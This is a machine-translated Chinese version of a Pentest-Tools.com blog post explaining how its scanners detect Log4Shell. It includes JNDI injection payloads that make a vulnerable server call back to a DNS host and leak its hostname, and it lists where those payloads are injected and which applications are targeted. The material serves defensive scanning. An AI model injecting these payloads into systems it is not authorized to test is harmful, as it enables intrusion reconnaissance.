

# 我们如何检测和利用 Log4Shell 来帮助您找到使用易受攻击的 Log4j 版本的目标| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/how-we-detect-log4shell>

我们正在分解我们检测 **CVE-2021-44228** ( [日志 4 外壳](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228))的技术，因为我们相信我们的用户应该了解扫描仪背后发生的事情，这样他们就可以避免错误的安全感。

在这种复杂的情况下，开诚布公、实事求是和分享知识是有帮助的，这样我们就可以尽最大努力管理风险。

已经有一篇[专门的 Log4Shell 文章](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228)详细描述了 Log4Shell 的漏洞，这里就不花太多时间了。然而，*我们的工具如何进行检测值得特别关注。*

*我们在[Pentest-Tools.com](https://pentest-tools.com/)用以下工具增加了针对此 Log4j 漏洞的检测功能:*

*这些扫描仪实现了我们下面描述的不同的检测技术。*

*我们还在我们的[狙击工具](https://pentest-tools.com/exploit-helpers/sniper)中增加了针对 Log4j 漏洞的攻击能力。*

## ***推荐的检测方法:使用网站扫描仪***

*我们建议使用网站扫描器作为 Log4Shell 的主要**检测**工具。原因如下。*

*扫描器使用＄{ JNDI:DNS://private-DNS-server/}这样的有效负载，并将它注入目标应用程序中的不同位置。如果应用易受攻击，它会向我们的一个私有 DNS 服务器(托管在我们的云环境中)发起 DNS 请求。*

*由于[网站扫描器](https://pentest-tools.com/website-vulnerability-scanning/website-scanner)实际上是一个成熟的 web 漏洞扫描器，它还对目标应用程序执行爬行，并对所有注入点进行索引。因此，Log4Shell 负载被注入到:*

*   *URL 基准*

*   *HTTP 标头(超过 50 个标头)*

*   *HTML 表单中的所有应用程序输入字段(如用户名、搜索等。)，它是通过抓取应用程序获得的。*

**

*因为网站扫描器对目标应用有广泛的覆盖，我们相信它是对 Log4Shell 最有效的检测方法**。***

*尽管这种技术非常精确，但它有一个限制*

*   *我们的检测是同步的，这意味着扫描器预计易受攻击的应用程序会立即处理请求，并将 LDAP 请求发送到我们的服务器。但是，如果应用程序稍后调用 Log4j 功能(例如，几分钟后)，我们可能不会将其检测为易受攻击。*

## ***使用网络扫描仪检测日志 4 外壳***

*我们在[网络扫描器](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)中实现的定制检测模块有一种不同的方法来检测 Log4Shell。*

*扫描仪使用类似${jndi:dns:// **${hostName}的有效负载。** private-dns-server}并将其注入 URL 或自定义标头中。如果应用易受攻击，它会向我们的一个私有 DNS 服务器(托管在我们的云环境中)发起 DNS 请求。*

**

*网络扫描器不是将目标视为一般的 web 应用程序，而是在使用 Log4j 的特定或众所周知的应用程序中搜索漏洞，例如:*

*   *阿帕奇弗林克*

*   *阿帕奇雄猫*

*   *阿帕奇德鲁伊*

*   *Apache Struts2*

*   *阿帕奇索尔*

*   *VMware vCenter*

*   *移动加速器*

*   *弹性搜索*

*在这种情况下，扫描器不会对目标应用程序进行任何爬网，但它会将有效负载(类似于网站扫描器的)注入:*

*   *基本 URL*

*   *多个标题(与网站扫描仪相同)*

*   *特定的输入字段，取决于目标应用。*

*我们通过使用[Sniper Automatic Exploiter](https://pentest-tools.com/exploit-helpers/sniper)模块，使用网络扫描器实现了这种检测，当用户也想证明风险是真实的时，该模块将具有利用漏洞的额外能力。你将可以和狙击手单独进行*剥削*。*

**

**

**

## ***更快地运行聚焦扫描:使用专用的 Log4Shell pentest 机器人***

*为了帮助您更快地识别潜在问题，我们已经创建了一个随时可用的 [pentest 机器人](https://pentest-tools.com/features/pentest-robots)，它**使用网站扫描器专门扫描 log 4 shell***——带有一组预定义的选项。**

**正如你在下面看到的，这个机器人只启用了“Log4j 远程代码执行”攻击选项，使得这个扫描**比默认扫描**快得多。**

****

**只需将您的资产添加到**目标**页面，然后使用 **Log4Shell pentest robot** 扫描它们(您也可以[安排](https://pentest-tools.com/blog/november-updates-log4shell/#2_Automate_periodic_custom_testing_sequences_with_scheduled_pentest_robots)在需要时运行):**

****

****

**使用这种专门的机器人有助于其他 pentesters 和我们，因为它减少了全扫描产生的负载。为此谢谢你！**

**了解您的工具在幕后做些什么非常重要，这样您就可以有力地保证您的安全状态是准确的。**

**虽然没有完美无缺的 Log4Shell 检测的完美解决方案，但是使用多种工具可以增加很好地解决问题的机会。**

**当我们在平台上推出新的更新时，我们会随时通知您！**